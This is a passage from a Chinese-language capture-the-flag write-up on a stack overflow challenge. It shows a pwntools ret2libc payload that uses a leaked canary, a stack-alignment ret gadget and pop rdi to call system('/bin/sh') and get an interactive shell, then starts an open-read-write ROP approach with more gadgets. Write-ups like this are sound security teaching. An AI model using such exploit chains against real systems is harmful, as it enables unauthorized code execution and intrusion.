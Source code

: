得到 libc 的地址为 ` 0x0000773842C00000`

### Getting system shell

已经知道了 libc 的地址，那就从 libc 里面找 gadget：`ROPgadget --binary ./libc.so.6 --only "pop|ret"` 

需要找一个 rdi_ret 与一个单独的 ret  ，但是单独的 ret 空转的原因，上网说是因为**ubuntu18及以上**在**调用system函数的时候会先进行一个检测**，如果此时的**栈没有16字节对齐的话**，就会**强行把程序crash掉**，所以需要**栈对齐** ，但我并没有看懂。无论如何，在 libc 里面找到了这样两个 gadgets：

---

<pre>0x000000000002a3e5 : pop rdi ; ret
0x0000000000029139 : ret</pre>

然后像下面这样构造 payload ，就可以直接获取 shell 了：

```python
# Getting system shell
ret_addr = 0x0000000000029139 + libc_addr
rdi_rtn_addr = 0x000000000002a3e5 + libc_addr
system_addr = libc.symbols['system'] + libc_addr #system函数的地址
bin_sh_addr = next(libc.search('/bin/sh')) + libc_addr #‘/bin/sh’的地址

payload = offset + p64(Canary) + b'AABBCCDD' + p64(ret_addr) + p64(rdi_rtn_addr) + p64(bin_sh_addr) + p64(system_addr) 
log.info("system_addr:{:016X}".format(system_addr)) 
log.info("bin_sh_addr:{:016X}".format(bin_sh_addr)) 

# pause()
conn.send(payload)
conn.recv(0x110)

conn.send(payload)
conn.recv(0x110)
conn.interactive()
```

运行效果如下：

![image-20240727002154799.png](https://s2.loli.net/2024/07/29/RmdVi6tZyqKMfT2.png)

成功获得 flag 为 `AAA{oh_R0P_1s_b4b@b4b@s1c~}`

### Approach 2 ORW

ORW 即 `open(file, olfag)` `read(fd, buf, n_bytes)` 与 `write(fd, buf, n_bytes)` 。

所以要用 rdi 对应文件地址 `file` 用于 open， 对应 `fd` 项用于 read 与 write：在ORW中，我们需要设置 read 的 `fd` 为 3，表示从文件中读取，write的 `fd` 还是如常，依旧为 1 ；

用 rsi 对应 `oflag` 用于 open （由于只用读取就行了所以取 0 ），对应 `buf` 用于 read 与 write；

最后用 rdx 对应 `n_bytes` 用于 read 与 write 。

我们先前已经找到了 `pop_rdi_ret` 的 gadget了，接着找 rsi 与 rdx 的 ：

```
0x000000000011f2e7 : pop rdx ; pop r12 ; ret
0x000000000002be51 : pop rsi ; ret
```
